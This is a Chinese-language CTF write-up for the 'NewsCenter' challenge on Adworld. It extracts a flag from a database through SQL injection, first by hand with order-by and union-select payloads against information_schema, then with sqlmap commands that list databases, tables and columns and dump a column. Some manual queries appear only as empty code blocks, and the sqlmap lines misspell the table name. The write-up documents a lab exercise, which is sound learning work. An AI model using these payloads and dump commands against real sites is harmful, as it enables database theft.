攻防世界-NewsCenter
Last Update:
Word Count:
Read Time:
题目描述：
无
题目解题：
方法一：手工注入
这里环境出了问题，怎么刷新也显示不了，就跟着wp走一遍吧
点进去看到如下页面

毕竟已经知道是sql注入了，直接看wp分析吧：
看到数据包最下方有个POST提交的 search =1，看到这里不知道大家想到了什么没有
(我第一时间是想到了sql注入)
于是我去尝试，因为search框是能输入字符的所以应该先想他为字符型注入，我比较习惯于用 order by 去判断是否有sql注入
于是在这里构造search=1’ order by 3 --+，burp suite里发送给repeater

再尝试search=1’ order by 4 --+

非常好出现错误了，接下来是利用sql注入的联合查询
search=-1’ union select 1,2,3 --+ //这里-1是为了不占用回显位

判断回显位为2,3
然后search=-1’ union select 1,version(),database() --+
获取sql版本和当前数据库名

这里为什么要获取数据库版本呢因为mysql大于5.0以上的版本有一个
系统数据库information_schema里面的tables表和columns表包含了其他所有的表和列这样我们就可以有据查询
并且这里知道了当前数据库为news
然后再构造sql语句
1 | |

这里可以看到有两个表news，和secret_table，news应该就是页面上的那些所以我们去找flag要从secret_table表中去找
再构造sql语句
1 | |

看到有两个列id,fl4g答案应该就在fl4g里面了
最后的sql语句
1 | |

方法二：sqlmap
搜索框中填入内容，如‘1’，回车搜索抓包，将抓到包的内容保存在txt文档里

使用sqlmap的-r进行注入如下，其中C:\Users\xxx\Desktop\1.txt为保存数据包的txt文件绝对路径
#查找数据库
sqlmap.py -r “C:\Users\xxx\Desktop\1.txt” --dbs
#或查找当前数据库
sqlmap.py -r “C:\Users\xxx\Desktop\1.txt” --current-dbs

#查找news数据库中的表
sqlmap.py -r “C:\Users\xxx\Desktop\1.txt” -D news --tables

#查找secret_table表中的列
sqlmap.py -r “C:\Users\xxx\Desktop\1.txt” -D news -T serect_table --columns

#查找fl4g列中的字段（内容），出现flag
sqlmap.py -r “C:\Users\xxx\Desktop\1.txt” -D news -T serect_table -C fl4g --dump

怎么说，没有过滤，很新手